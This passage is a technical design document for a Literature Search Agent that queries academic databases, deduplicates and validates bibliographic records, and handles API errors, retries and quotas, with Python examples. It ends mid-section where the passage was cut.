

# Literature Search Agent (LSA) Documentation

## Overview

The **Literature Search Agent (LSA)** is the first stage in the literature review pipeline, responsible for discovering and collecting bibliographic records from multiple academic sources. It normalizes results and stores them for further screening by the Screening & PRISMA Agent.

**✅ Status**: Design Complete - Ready for Implementation  
**🔧 Architecture**: Specialized agent extracted from Literature Agent  
**🎯 Purpose**: Academic source discovery and data collection

## Core Responsibilities

### Primary Functions

- **Multi-Source Querying**: Search across PubMed, CrossRef, Semantic Scholar, arXiv, and other academic databases
- **Advanced Filtering**: Apply year ranges, publication types, keywords, and custom criteria
- **Deduplication**: Remove duplicates using DOI, PMID, or title/author/year heuristics
- **Data Normalization**: Convert diverse source formats into standardized schema
- **Storage Management**: Store both raw source data and normalized records in Literature Database

### Academic Data Sources

#### Primary Sources

- **PubMed**: Medical and life sciences literature
- **Semantic Scholar**: AI-powered academic search with rich metadata
- **CrossRef**: DOI-based academic publication metadata
- **arXiv**: Preprint server for physics, mathematics, computer science
- **Google Scholar**: Broad academic search (fallback/supplementary)

#### Specialized Sources

- **IEEE Xplore**: Engineering and technology papers
- **ACM Digital Library**: Computer science publications
- **PsycINFO**: Psychology and behavioral sciences
- **Web of Science**: Citation database across disciplines

## Task Execution Workflow

### 1. Search Query Processing

```python
class SearchQuery(BaseModel):
    lit_review_id: str
    query: str
    filters: dict[str, Any]
    sources: list[str]
    max_results: int
    date_range: Optional[tuple[str, str]]
    publication_types: Optional[list[str]]
    languages: Optional[list[str]]
```

### 2. Multi-Source Search Pipeline

**Step 1: Query Construction**

- Parse search query and filters
- Construct source-specific API calls
- Apply rate limiting and authentication

**Step 2: Parallel Data Retrieval**

- Execute searches across specified sources
- Handle pagination with appropriate delays
- Parse metadata into common schema

**Step 3: Result Processing**

- Combine results from all sources
- Apply deduplication algorithms
- Validate and clean metadata

**Step 4: Storage and Reporting**

- Store raw and normalized data
- Generate comprehensive search report
- Log errors and missing fields

### 3. Deduplication Strategy

#### Primary Deduplication (DOI-based)

```python
def deduplicate_by_doi(records: List[Dict]) -> List[Dict]:
    """Remove duplicates using DOI as primary key."""
    seen_dois = set()
    unique_records = []
    
    for record in records:
        doi = record.get('doi')
        if doi and doi not in seen_dois:
            seen_dois.add(doi)
            unique_records.append(record)
    
    return unique_records
```

#### Secondary Deduplication (Fuzzy Matching)

```python
def fuzzy_title_match(title1: str, title2: str, threshold: float = 0.85) -> bool:
    """Check if two titles are likely the same paper."""
    # Implementation using fuzzy string matching
    pass
```

#### Heuristic Deduplication

- Title + First Author + Year combination
- Abstract similarity scoring
- Journal + Volume + Page matching

## Data Models

### Input Models

```python
class SearchQuery(BaseModel):
    lit_review_id: str
    query: str
    filters: dict[str, Any]
    sources: list[str]
    max_results: int

class SearchFilters(BaseModel):
    date_range: Optional[tuple[datetime, datetime]]
    publication_types: Optional[list[str]]
    languages: Optional[list[str]]
    study_types: Optional[list[str]]
    min_citations: Optional[int]
    open_access_only: Optional[bool]
```

### Output Models

```python
class SearchReport(BaseModel):
    lit_review_id: str
    total_fetched: int
    total_unique: int
    per_source_counts: dict[str, int]
    duplicates_removed: int
    start_time: datetime
    end_time: datetime
    errors: list[str]
    
class NormalizedRecord(BaseModel):
    record_id: str
    title: str
    authors: list[str]
    abstract: Optional[str]
    doi: Optional[str]
    pmid: Optional[str]
    publication_date: Optional[datetime]
    journal: Optional[str]
    volume: Optional[str]
    issue: Optional[str]
    pages: Optional[str]
    keywords: list[str]
    mesh_terms: list[str]
    source: str
    url: str
    open_access: bool
    citation_count: Optional[int]
    raw_data: dict[str, Any]
```

## API Integration

### Source-Specific Implementations

#### PubMed Integration

```python
class PubMedConnector:
    async def search(self, query: str, filters: SearchFilters) -> List[Dict]:
        """Search PubMed using E-utilities API."""
        # Implementation details
        pass
    
    def parse_pubmed_record(self, xml_record) -> NormalizedRecord:
        """Parse PubMed XML into normalized format."""
        pass
```

#### Semantic Scholar Integration

```python
class SemanticScholarConnector:
    async def search(self, query: str, filters: SearchFilters) -> List[Dict]:
        """Search using Semantic Scholar API."""
        # Enhanced with API key support
        pass
    
    def parse_semantic_scholar_record(self, json_record) -> NormalizedRecord:
        """Parse Semantic Scholar JSON into normalized format."""
        pass
```

#### CrossRef Integration

```python
class CrossRefConnector:
    async def search(self, query: str, filters: SearchFilters) -> List[Dict]:
        """Search CrossRef metadata API."""
        pass
    
    def parse_crossref_record(self, json_record) -> NormalizedRecord:
        """Parse CrossRef JSON into normalized format."""
        pass
```

## Performance Metrics

### Search Quality Metrics

- **Recall**: Percentage of relevant papers found vs. benchmark queries
- **Precision**: Percentage of returned papers that are relevant
- **Coverage**: Number of unique sources providing results
- **Freshness**: Average age of returned publications

### Technical Metrics

- **API Success Rate**: Percentage of successful API calls per source
- **Deduplication Effectiveness**: Percentage of duplicates correctly identified
- **Processing Speed**: Records processed per minute
- **Error Rate**: Failed queries and parsing errors

### Example Metrics Dashboard

```python
class SearchMetrics(BaseModel):
    total_queries: int
    successful_queries: int
    total_records_found: int
    unique_records: int
    deduplication_rate: float
    average_query_time: float
    source_success_rates: dict[str, float]
    error_types: dict[str, int]
```

## Error Handling and Logging

The Literature Search Agent implements a comprehensive error handling and logging system designed to provide operational visibility, facilitate debugging, and ensure system reliability. This framework is crucial for maintaining service quality when interacting with multiple external APIs that may have different failure modes and rate limiting policies.

### Enhanced Error Handling Framework

The error handling system serves multiple critical purposes:

- **Operational Monitoring**: Track system health and API performance in real-time
- **Debugging Support**: Provide detailed context for troubleshooting failures
- **Resilience**: Implement intelligent retry strategies and fallback mechanisms
- **Compliance**: Maintain audit trails for security and regulatory requirements

#### Structured Logging Implementation

The structured logging system uses the `structlog` library to create machine-readable, searchable log entries. Unlike traditional text-based logging, structured logging stores log data as key-value pairs, enabling powerful querying and analysis in log aggregation systems like ELK Stack or Splunk.

```python
import structlog
from typing import Dict, Any, Optional
import time

# Configure structured logging with comprehensive processors
# Each processor adds specific information or formatting to log entries
structlog.configure(
    processors=[
        structlog.stdlib.filter_by_level,        # Filter by log level (DEBUG, INFO, etc.)
        structlog.stdlib.add_logger_name,        # Add logger name to context
        structlog.stdlib.add_log_level,          # Add severity level
        structlog.stdlib.PositionalArgumentsFormatter(),  # Handle format strings
        structlog.processors.TimeStamper(fmt="iso"),       # Add ISO timestamp
        structlog.processors.StackInfoRenderer(),          # Include stack traces
        structlog.processors.format_exc_info,             # Format exception info
        structlog.processors.JSONRenderer()                # Output as JSON
    ],
    context_class=dict,                          # Use dict for context storage
    logger_factory=structlog.stdlib.LoggerFactory(),      # Use stdlib logging
    wrapper_class=structlog.stdlib.BoundLogger,           # Wrapper class
    cache_logger_on_first_use=True,            # Performance optimization
)

logger = structlog.get_logger()

class EnhancedErrorHandler:
    """
    Enhanced error handling system that provides structured logging, error tracking,
    and intelligent alerting for API failures and system issues.
    
    This class serves as the central error management component, tracking error patterns,
    providing context-rich logging, and triggering alerts when error rates exceed
    acceptable thresholds. It's designed to help operations teams quickly identify
    and respond to system issues.
    """
    
    def __init__(self):
        # Track error frequencies by source and error type
        # This enables pattern detection and alerting
        self.error_counts = {}
        
        # Store API performance metrics for analysis
        # Helps identify slow or unreliable sources
        self.api_metrics = {}
    
    async def log_api_error(self, source: str, endpoint: str, error: Exception, 
                           query: str = None, response_code: int = None):
        """
        Log API errors with comprehensive structured context.
        
        This method creates detailed error records that include all relevant context
        for debugging and analysis. The structured format enables automated analysis
        and alerting based on error patterns.
        
        Args:
            source: The academic source that failed (e.g., 'pubmed', 'semantic_scholar')
            endpoint: The specific API endpoint that was called
            error: The exception that occurred
            query: The search query that caused the error (hashed for privacy)
            response_code: HTTP response code if available
        
        The method performs several important functions:
        1. Creates a structured error context with all relevant details
        2. Tracks error frequency for pattern detection
        3. Logs the error with full context for debugging
        4. Triggers alerts if error rates exceed thresholds
        """
        # Create comprehensive error context for structured logging
        # This provides all information needed for debugging and analysis
        error_context = {
            "source": source,                           # Which API failed
            "endpoint": endpoint,                       # Specific endpoint
            "error_type": type(error).__name__,        # Exception class name
            "error_message": str(error),               # Human-readable error
            "response_code": response_code,            # HTTP status if available
            "timestamp": time.time(),                  # Precise timing
            "query_hash": hash(query) if query else None,  # Privacy-safe query ID
            "operation": "literature_search"           # Operation type for filtering
        }
        
        # Track error frequency for pattern detection and alerting
        # This enables identification of systemic issues vs. isolated failures
        error_key = f"{source}_{type(error).__name__}"
        self.error_counts[error_key] = self.error_counts.get(error_key, 0) + 1
        
        # Log the error with full structured context
        # This creates a searchable, analyzable record for operations teams
        logger.error("API search failed", **error_context)
        
        # Trigger alert if error rate indicates a systemic problem
        # This enables proactive response to API issues before they affect users
        if self.error_counts[error_key] > 5:
            logger.critical("High error rate detected", 
                          source=source, 
                          error_type=type(error).__name__,
                          count=self.error_counts[error_key])
```

#### Common Error Types and Recovery Strategies

Understanding and properly handling different types of API failures is crucial for maintaining system reliability. Each error type requires a different recovery strategy, and the system must be able to distinguish between temporary issues (which should trigger retries) and permanent failures (which should trigger fallbacks or alerts).

The Literature Search Agent encounters several categories of errors when interacting with academic APIs:

1. **API Rate Limits**: Most academic APIs impose rate limits to prevent abuse and ensure fair access. When these limits are exceeded, the system implements **exponential backoff with jitter** - this means waiting progressively longer periods between retries, with random variations to prevent thundering herd problems when multiple instances retry simultaneously.

2. **Network Timeouts**: Network connectivity issues can cause requests to timeout. The system handles these by **implementing progressive timeout increases** - starting with shorter timeouts for quick failures and gradually increasing timeout durations for subsequent retries to account for temporary network congestion.

3. **Authentication Failures**: API keys may expire, become invalid, or reach usage limits. The system addresses this through **automatic API key rotation** - attempting to refresh credentials and, if available, switching to backup API keys or alternative authentication methods.

4. **Malformed Responses**: APIs may return unexpected data formats or corrupted responses. The system implements **graceful parsing with detailed validation logging** - attempting to extract whatever useful data is available while logging the specific parsing failures for debugging.

5. **Quota Exceeded**: Daily or monthly API quotas may be exhausted. The system responds with **dynamic source prioritization and usage tracking** - automatically switching to alternative sources and tracking usage patterns to prevent future quota exhaustion.

6. **Service Unavailability**: Entire APIs may become temporarily unavailable due to maintenance or outages. The system implements the **circuit breaker pattern with fallback sources** - detecting repeated failures and temporarily disabling problematic sources while routing requests to healthy alternatives.

### Error Recovery Strategies

The error recovery system implements intelligent retry logic that adapts to different failure types and provides comprehensive logging for operational visibility. This approach ensures maximum reliability while avoiding aggressive retry behavior that could worsen API rate limiting or system overload situations.

```python
async def search_with_enhanced_retry(source: str, query: str, 
                                   max_retries: int = 3,
                                   base_delay: float = 1.0) -> List[Dict]:
    """
    Enhanced search function with intelligent retry logic and comprehensive logging.
    
    This function implements the core retry logic for API calls, handling different
    error types with appropriate strategies. It serves as the primary interface
    between the Literature Search Agent and external academic APIs.
    
    The retry logic follows these principles:
    1. Different error types require different retry strategies
    2. Each retry attempt is logged with full context for debugging
    3. Successful operations are also logged for performance monitoring
    4. Exponential backoff prevents overwhelming rate-limited APIs
    5. Authentication errors trigger credential refresh attempts
    6. Final failures are logged with complete context for investigation
    
    Args:
        source: The academic source being searched (e.g., 'pubmed', 'semantic_scholar')
        query: The search query being executed
        max_retries: Maximum number of retry attempts (default: 3)
        base_delay: Base delay for exponential backoff (default: 1.0 seconds)
    
    Returns:
        List of raw record dictionaries from the API, or empty list if all retries fail
    
    The function implements several sophisticated error handling strategies:
    - Rate limit errors use exponential backoff with jitter to avoid retry storms
    - Authentication errors trigger automatic credential refresh
    - Network errors use progressive delays to handle temporary connectivity issues
    - All errors are logged with structured context for operational analysis
    """
    error_handler = EnhancedErrorHandler()
    
    # Attempt the operation with intelligent retry logic
    for attempt in range(max_retries):
        try:
            # Track timing for performance monitoring
            start_time = time.time()
            
            # Execute the actual API search
            result = await source_connectors[source].search(query)
            
            # Log successful operations for performance analysis
            # This data helps identify slow sources and optimize query strategies
            logger.info("Search completed successfully",
                       source=source,                    # Which API was used
                       query_hash=hash(query),          # Privacy-safe query identifier
                       results_count=len(result),       # Number of results returned
                       duration=time.time() - start_time,  # Response time
                       attempt=attempt + 1)             # Which retry attempt succeeded
            
            return result
            
        except RateLimitError as e:
            """
            Handle API rate limiting with exponential backoff and jitter.
            
            Rate limiting is common with academic APIs and requires careful handling
            to avoid being permanently blocked. The exponential backoff ensures we
            wait progressively longer between retries, while jitter prevents multiple
            instances from retrying simultaneously (thundering herd problem).
            """
            # Calculate delay with exponential backoff and random jitter
            # Jitter prevents synchronized retries from multiple instances
            delay = base_delay * (2 ** attempt) + random.uniform(0, 1)
            
            # Log the rate limit error with full context
            await error_handler.log_api_error(source, "search", e, query, 
                                             getattr(e, 'response_code', None))
            
            # Wait before retrying to respect rate limits
            await asyncio.sleep(delay)
            
        except AuthenticationError as e:
            """
            Handle authentication failures with automatic credential refresh.
            
            Authentication errors may indicate expired API keys or quota exhaustion.
            The system attempts to refresh credentials automatically before retrying.
            This enables seamless operation even when API keys expire during operation.
            """
            # Log the authentication failure
            await error_handler.log_api_error(source, "search", e, query)
            
            # Attempt to refresh API credentials
            # This may involve rotating to backup keys or refreshing tokens
            await refresh_api_credentials(source)
            
        except (NetworkError, TimeoutError) as e:
            """
            Handle network connectivity issues with progressive delays.
            
            Network errors are often temporary and may resolve quickly. The system
            uses progressive delays rather than exponential backoff to retry more
            quickly while still allowing time for network issues to resolve.
            """
            # Log the network error
            await error_handler.log_api_error(source, "search", e, query)
            
            # Use linear progression for network errors (faster recovery)
            await asyncio.sleep(base_delay * (attempt + 1))
            
        except Exception as e:
            """
            Handle unexpected errors with comprehensive logging and final failure.
            
            Unexpected errors indicate potential bugs or API changes that require
            investigation. These are logged with full context and the operation
            fails after exhausting retries to prevent infinite loops.
            """
            # Log the unexpected error
            await error_handler.log_api_error(source, "search", e, query)
            
            # On final attempt, log comprehensive failure information
            if attempt == max_retries - 1:
                logger.error("Search failed after all retries",
                           source=source,
                           query_hash=hash(query),
                           max_retries=max_retries,
                           final_error=str(e))
                raise  # Re-raise the exception for calling code to handle
    
    # Return empty list if all retries failed (prevents None return issues)
    return []
```

### Error Monitoring and Alerting

The error monitoring system provides proactive detection of system issues through pattern analysis and threshold-based alerting. This component is essential for maintaining service reliability and enabling rapid response to emerging problems before they significantly impact users.

```python
class ErrorMonitor:
    """
    Monitor error patterns and trigger alerts when thresholds are exceeded.
    
    This class implements a sliding window approach to error monitoring, tracking
    error frequencies over time and triggering alerts when error rates indicate
    potential systemic issues. The monitoring system helps operations teams
    distinguish between isolated failures (which are normal) and patterns that
    indicate broader problems requiring intervention.
    
    Key features:
    - Sliding window error tracking prevents stale alerts
    - Configurable thresholds for different alert severities
    - Pattern analysis to identify systemic vs. isolated issues
    - Integration with logging system for automated alerting
    
    The monitor maintains error timestamps in memory, which works well for
    single-instance deployments. For distributed deployments, this could be
    extended to use a shared cache like Redis for cluster-wide monitoring.
    """
    
    def __init__(self, alert_threshold: int = 10):
        """
        Initialize the error monitor with configurable alert threshold.
        
        Args:
            alert_threshold: Number of errors in the time window that triggers an alert
        """
        self.alert_threshold = alert_threshold
        
        # Track error timestamps by error type for sliding window analysis
        # Structure: {error_type: [timestamp1, timestamp2, ...]}
        # This enables analysis of error frequency patterns over time
        self.error_window = {}
    
    def check_error_patterns(self):
        """
        Analyze error patterns and trigger alerts when thresholds are exceeded.
        
        This method implements a sliding window analysis to detect when error rates
        exceed acceptable thresholds. It's designed to be called periodically
        (e.g., every minute) to provide timely alerts for emerging issues.
        
        The sliding window approach provides several advantages:
        1. Prevents alerts for old errors that have been resolved
        2. Provides more accurate representation of current system health
        3. Enables detection of error rate increases rather than just absolute counts
        4. Automatically cleans up old data to prevent memory growth
        
        Alert triggers are designed to catch several scenarios:
        - Sudden spikes in errors (indicating new problems)
        - Sustained high error rates (indicating ongoing issues)
        - Patterns across multiple error types (indicating systemic problems)
        """
        current_time = time.time()
        window_size = 300  # 5-minute sliding window for error analysis
        
        # Analyze each error type for threshold violations
        for error_type, timestamps in self.error_window.items():
            # Filter to only errors within the current time window
            # This implements the sliding window - old errors are ignored
            recent_errors = [t for t in timestamps if current_time - t < window_size]
            
            # Update the stored timestamps to remove old entries
            # This prevents memory growth and keeps analysis current
            self.error_window[error_type] = recent_errors
            
            # Trigger alert if error count exceeds threshold
            if len(recent_errors) > self.alert_threshold:
                # Log critical alert with detailed context
                # This enables automated alerting systems to notify operations teams
                logger.critical("Error threshold exceeded",
                              error_type=error_type,           # Which type of error
                              count=len(recent_errors),        # How many errors
                              window_minutes=window_size/60,   # Time window for context
                              threshold=self.alert_threshold, # What threshold was exceeded
                              alert_level="critical")         # Severity for alert routing
                
                # Additional analysis could be added here:
                # - Check if multiple error types are elevated (systemic issue)
                # - Analyze error rate trends (increasing, decreasing, stable)
                # - Compare against historical baselines for this time of day
                # - Trigger specific remediation actions for known error patterns
    
    def record_error(self, error_type: str, timestamp: float = None):
        """
        Record an error occurrence for pattern analysis.
        
        This method should be called whenever an error occurs to feed the
        monitoring system. It's designed to be lightweight and non-blocking
        to avoid impacting system performance.
        
        Args:
            error_type: String identifier for the type of error
            timestamp: When the error occurred (defaults to current time)
        """
        if timestamp is None:
            timestamp = time.time()
        
        # Initialize error type tracking if first occurrence
        if error_type not in self.error_window:
            self.error_window[error_type] = []
        
        # Add timestamp to the error history
        self.error_window[error_type].append(timestamp)
        
        # Optional: Trigger immediate analysis for critical error types
        # This enables faster response to severe issues
        critical_errors = ['AuthenticationError', 'QuotaExceededError']
        if error_type in critical_errors:
            self.check_error_patterns()
```

## Data Validation and Quality Assurance

Data validation is a critical component of the Literature Search Agent that ensures the quality and completeness of academic records before they proceed to downstream processing. Academic APIs often return data with varying quality levels, missing fields, or formatting inconsistencies. A robust validation system prevents these issues from propagating through the literature review pipeline and ensures researchers receive high-quality, reliable data.

The validation system operates on multiple levels:

1. **Structural Validation**: Ensures required fields are present and data types are correct
2. **Content Validation**: Verifies that field values are reasonable and properly formatted
3. **Quality Scoring**: Assigns completeness and quality scores for prioritization
4. **Batch Analysis**: Provides aggregate quality metrics for monitoring and improvement

### Post-Normalization Validation Framework

The validation framework processes normalized records after they've been converted from various source formats into the standardized schema. This approach ensures consistency across all academic sources while providing detailed feedback about data quality issues.

```python
from pydantic import BaseModel, validator, ValidationError
from typing import List, Optional, Set
import re

class ValidationResult(BaseModel):
    """
    Comprehensive result of data validation with detailed feedback.
    
    This model encapsulates all aspects of validation results, providing both
    binary validation status and detailed quality metrics. The structure enables
    both automated processing (using is_valid) and detailed quality analysis
    (using completeness_score and quality_metrics).
    
    Fields:
        is_valid: Boolean indicating whether the record meets minimum standards
        errors: List of validation errors that must be fixed
        warnings: List of quality issues that don't prevent processing
        completeness_score: Numeric score (0.0-1.0) indicating data completeness
        quality_metrics: Detailed metrics for each validated field
    """
    is_valid: bool
    errors: List[str]
    warnings: List[str]
    completeness_score: float
    quality_metrics: Dict[str, Any]

class RecordValidator:
    """
    Comprehensive validation system for normalized academic records.
    
    This class implements a rule-based validation system that checks both the
    presence and quality of academic record fields. It's designed to be
    extensible, allowing new validation rules to be added as requirements evolve.
    
    The validator operates on two levels:
    1. Required vs. Critical field distinction allows for flexible validation
    2. Field-specific validation rules provide detailed quality assessment
    
    Required fields must be present for basic processing, while critical fields
    significantly impact the usefulness of the record for literature review.
    This distinction allows the system to handle varying data quality gracefully.
    """
    
    # Fields that must be present for basic record processing
    # These represent the absolute minimum data needed for the record to be useful
    REQUIRED_FIELDS = {'title', 'authors', 'source'}
    
    # Fields that significantly impact record quality and usefulness
    # Missing critical fields reduce the record's value for literature review
    CRITICAL_FIELDS = {'title', 'authors', 'publication_date', 'doi', 'abstract'}
    
    def __init__(self):
        """
        Initialize the validator with field-specific validation rules.
        
        The validation rules dictionary maps field names to validation functions.
        This design allows for easy extension with new fields and validation logic.
        Each validation function returns a dictionary with errors, warnings, and
        a quality score for the specific field.
        """
        self.validation_rules = {
            'title': self._validate_title,
            'authors': self._validate_authors,
            'doi': self._validate_doi,
            'publication_date': self._validate_publication_date,
            'abstract': self._validate_abstract,
            'journal': self._validate_journal
        }
    
    def validate_record(self, record: NormalizedRecord) -> ValidationResult:
        """
        Perform comprehensive validation of a normalized academic record.
        
        This method implements the core validation logic, checking both structural
        requirements and content quality. It aggregates results from field-specific
        validators and calculates overall quality metrics.
        
        The validation process follows these steps:
        1. Check for required fields (structural validation)
        2. Check for critical fields (completeness assessment)
        3. Apply field-specific validation rules (content validation)
        4. Calculate overall completeness score (quality metric)
        5. Determine overall validity (pass/fail decision)
        
        Args:
            record: The normalized academic record to validate
            
        Returns:
            ValidationResult containing detailed validation feedback
        """
        errors = []
        warnings = []
        quality_scores = {}
        
        # Structural validation: Check for required fields
        # These fields are essential for basic record processing
        record_dict = record.dict()
        missing_required = self.REQUIRED_FIELDS - set(record_dict.keys())
        if missing_required:
            errors.append(f"Missing required fields: {missing_required}")
        
        # Completeness assessment: Check for critical fields
        # These fields significantly impact the record's research value
        missing_critical = []
        for field in self.CRITICAL_FIELDS:
            value = getattr(record, field, None)
            # Check for None, empty strings, and whitespace-only strings
            if not value or (isinstance(value, str) and len(value.strip()) == 0):
                missing_critical.append(field)
        
        if missing_critical:
            warnings.append(f"Missing critical fields: {missing_critical}")
        
        # Content validation: Apply field-specific validation rules
        # Each field has specific requirements and quality standards
        for field, validator_func in self.validation_rules.items():
            value = getattr(record, field, None)
            if value:  # Only validate fields that have values
                field_result = validator_func(value)
                quality_scores[field] = field_result.get('quality_score', 1.0)
                
                # Aggregate field-level errors and warnings
                if field_result.get('errors'):
                    errors.extend(field_result['errors'])
                if field_result.get('warnings'):
                    warnings.extend(field_result['warnings'])
        
        # Calculate overall completeness score
        # This provides a numeric assessment of record quality
        completeness_score = self._calculate_completeness_score(record)
        
        # Determine overall validity
        # A record is valid if it has no structural errors
        return ValidationResult(
            is_valid=len(errors) == 0,
            errors=errors,
            warnings=warnings,
            completeness_score=completeness_score,
            quality_metrics=quality_scores
        )
    
    def _validate_title(self, title: str) -> Dict[str, Any]:
        """
        Validate academic paper title for completeness and quality.
        
        Title validation focuses on identifying placeholder titles, extremely
        short or long titles, and other quality indicators. A good title is
        essential for literature review as it's often the first criterion
        researchers use to assess relevance.
        
        Validation checks:
        - Length bounds (too short indicates incomplete data, too long may indicate errors)
        - Placeholder patterns (indicates missing or corrupted data)
        - Character encoding issues (may indicate data corruption)
        
        Args:
            title: The paper title to validate
            
        Returns:
            Dict with validation results including errors, warnings, and quality score
        """
        errors = []
        warnings = []
        quality_score = 1.0
        
        # Check for unusually short titles
        # Academic titles under 10 characters are likely incomplete or corrupted
        if len(title) < 10:
            warnings.append("Title unusually short")
            quality_score *= 0.8  # Reduce quality score for short titles
        
        # Check for unusually long titles
        # Titles over 500 characters may indicate data corruption or incorrect parsing
        if len(title) > 500:
            warnings.append("Title unusually long")
            quality_score *= 0.9  # Slight reduction for very long titles
        
        # Check for placeholder or incomplete titles
        # These patterns indicate missing or corrupted data from the source
        placeholder_patterns = ['untitled', 'no title', '[title]', 'tbd', 'n/a']
        if any(pattern in title.lower() for pattern in placeholder_patterns):
            errors.append("Title appears to be placeholder")
            quality_score = 0.0  # Placeholder titles have no value
        
        # Additional checks could include:
        # - Character encoding validation
        # - Language detection for non-English titles
        # - Common formatting issues (all caps, missing spaces, etc.)
        
        return {
            'errors': errors,
            'warnings': warnings,
            'quality_score': quality_score
        }
```

    def _validate_authors(self, authors: List[str]) -> Dict[str, Any]:
        """Validate authors field."""
        errors = []
        warnings = []
        quality_score = 1.0
        
        if not authors:
            errors.append("No authors provided")
            return {'errors': errors, 'warnings': warnings, 'quality_score': 0.0}
        
        if len(authors) > 50:
            warnings.append("Unusually high number of authors")
            quality_score *= 0.9
        
        # Check author name format
        for author in authors:
            if len(author.strip()) < 2:
                warnings.append(f"Author name too short: {author}")
                quality_score *= 0.95
        
        return {
            'errors': errors,
            'warnings': warnings,
            'quality_score': quality_score
        }
    
    def _validate_doi(self, doi: str) -> Dict[str, Any]:
        """Validate DOI format."""
        errors = []
        warnings = []
        quality_score = 1.0
        
        doi_pattern = r'^10\.\d{4,}/.+'
        if not re.match(doi_pattern, doi):
            errors.append(f"Invalid DOI format: {doi}")
            quality_score = 0.0
        
        return {
            'errors': errors,
            'warnings': warnings,
            'quality_score': quality_score
        }
    
    def _validate_publication_date(self, date) -> Dict[str, Any]:
        """Validate publication date."""
        errors = []
        warnings = []
        quality_score = 1.0
        
        from datetime import datetime
        current_year = datetime.now().year
        
        if hasattr(date, 'year'):
            year = date.year
            if year > current_year + 1:
                warnings.append(f"Future publication date: {year}")
                quality_score *= 0.8
            elif year < 1800:
                warnings.append(f"Very old publication date: {year}")
                quality_score *= 0.9
        
        return {
            'errors': errors,
            'warnings': warnings,
            'quality_score': quality_score
        }
    
    def _validate_abstract(self, abstract: str) -> Dict[str, Any]:
        """Validate abstract content."""
        errors = []
        warnings = []
        quality_score = 1.0
        
        if len(abstract) < 50:
            warnings.append("Abstract unusually short")
            quality_score *= 0.7
        
        if len(abstract) > 5000:
            warnings.append("Abstract unusually long")
            quality_score *= 0.9
        
        return {
            'errors': errors,
            'warnings': warnings,
            'quality_score': quality_score
        }
    
    def _validate_journal(self, journal: str) -> Dict[str, Any]:
        """Validate journal name."""
        errors = []
        warnings = []
        quality_score = 1.0
        
        if len(journal.strip()) < 3:
            warnings.append("Journal name too short")
            quality_score *= 0.8
        
        return {
            'errors': errors,
            'warnings': warnings,
            'quality_score': quality_score
        }
    
    def _calculate_completeness_score(self, record: NormalizedRecord) -> float:
        """Calculate completeness score based on field presence and quality."""
        total_fields = len(self.CRITICAL_FIELDS)
        present_fields = 0
        
        for field in self.CRITICAL_FIELDS:
            value = getattr(record, field, None)
            if value and (not isinstance(value, str) or len(value.strip()) > 0):
                present_fields += 1
        
        return present_fields / total_fields

class BatchValidator:
    """Validate batches of records with reporting."""

    def __init__(self):
        self.record_validator = RecordValidator()
        self.batch_stats = {
            'total_processed': 0,
            'valid_records': 0,
            'invalid_records': 0,
            'warnings_count': 0,
            'average_completeness': 0.0
        }
    
    def validate_batch(self, records: List[NormalizedRecord]) -> Dict[str, Any]:
        """Validate a batch of records and generate summary report."""
        validation_results = []
        completeness_scores = []
        
        for record in records:
            result = self.record_validator.validate_record(record)
            validation_results.append(result)
            completeness_scores.append(result.completeness_score)
            
            if result.is_valid:
                self.batch_stats['valid_records'] += 1
            else:
                self.batch_stats['invalid_records'] += 1
            
            if result.warnings:
                self.batch_stats['warnings_count'] += len(result.warnings)
        
        self.batch_stats['total_processed'] = len(records)
        self.batch_stats['average_completeness'] = sum(completeness_scores) / len(completeness_scores) if completeness_scores else 0
        
        return {
            'validation_results': validation_results,
            'batch_summary': self.batch_stats,
            'quality_report': self._generate_quality_report(validation_results)
        }
    
    def _generate_quality_report(self, results: List[ValidationResult]) -> Dict[str, Any]:
        """Generate comprehensive quality report."""
        all_errors = []
        all_warnings = []
        
        for result in results:
            all_errors.extend(result.errors)
            all_warnings.extend(result.warnings)
        
        error_frequency = {}
        warning_frequency = {}
        
        for error in all_errors:
            error_frequency[error] = error_frequency.get(error, 0) + 1
        
        for warning in all_warnings:
            warning_frequency[warning] = warning_frequency.get(warning, 0) + 1
        
        return {
            'most_common_errors': sorted(error_frequency.items(), key=lambda x: x[1], reverse=True)[:5],
            'most_common_warnings': sorted(warning_frequency.items(), key=lambda x: x[1], reverse=True)[:5],
            'quality_distribution': self._calculate_quality_distribution(results)
        }
    
    def _calculate_quality_distribution(self, results: List[ValidationResult]) -> Dict[str, int]:
        """Calculate distribution of record quality scores."""
        distribution = {'excellent': 0, 'good': 0, 'fair': 0, 'poor': 0}
        
        for result in results:
            score = result.completeness_score
            if score >= 0.9:
                distribution['excellent'] += 1
            elif score >= 0.7:
                distribution['good'] += 1
            elif score >= 0.5:
                distribution['fair'] += 1
            else:
                distribution['poor'] += 1
        
        return distribution

```

## API Quota Management and Resource Optimization

Effective API quota management is essential for maintaining reliable literature search operations across multiple academic sources. Academic APIs typically impose various usage limits (per minute, hour, day) to ensure fair access and prevent abuse. The Literature Search Agent implements a sophisticated quota management system that proactively tracks usage, prevents quota violations, and optimizes resource allocation across multiple sources.

The quota management system serves several critical functions:

1. **Proactive Monitoring**: Track usage across multiple time windows to prevent unexpected quota exhaustion
2. **Dynamic Prioritization**: Automatically adjust source usage based on availability and quota status
3. **Intelligent Distribution**: Optimize request distribution across sources for maximum efficiency
4. **Fallback Management**: Seamlessly switch to alternative sources when primary sources reach limits
5. **Performance Analytics**: Provide detailed usage insights for capacity planning and optimization

### Proactive Quota Management System

The quota management system implements a multi-layered approach to API usage tracking, maintaining separate counters for different time windows (minute, hour, day) and providing predictive capabilities to prevent quota violations before they occur.

```python
from dataclasses import dataclass
from datetime import datetime, timedelta
from typing import Dict, Optional, List
import asyncio

@dataclass
class QuotaLimit:
    """
    Configuration for API quota limits across different time windows.
    
    Academic APIs often impose multiple concurrent limits (e.g., 100 requests per minute,
    1000 per hour, 10000 per day). This class captures these multi-dimensional limits
    and supports optional reset time tracking for APIs that provide this information.
    
    Attributes:
        requests_per_minute: Maximum requests allowed in any 60-second window
        requests_per_hour: Maximum requests allowed in any 60-minute window  
        requests_per_day: Maximum requests allowed in any 24-hour window
        reset_time: Optional timestamp when quotas reset (if provided by API)
    """
    requests_per_minute: int
    requests_per_hour: int
    requests_per_day: int
    reset_time: Optional[datetime] = None

@dataclass
class QuotaUsage:
    """
    Current quota usage tracking across multiple time windows.
    
    This class maintains running counters for API usage across different time periods.
    The separate tracking enables precise quota enforcement while supporting the
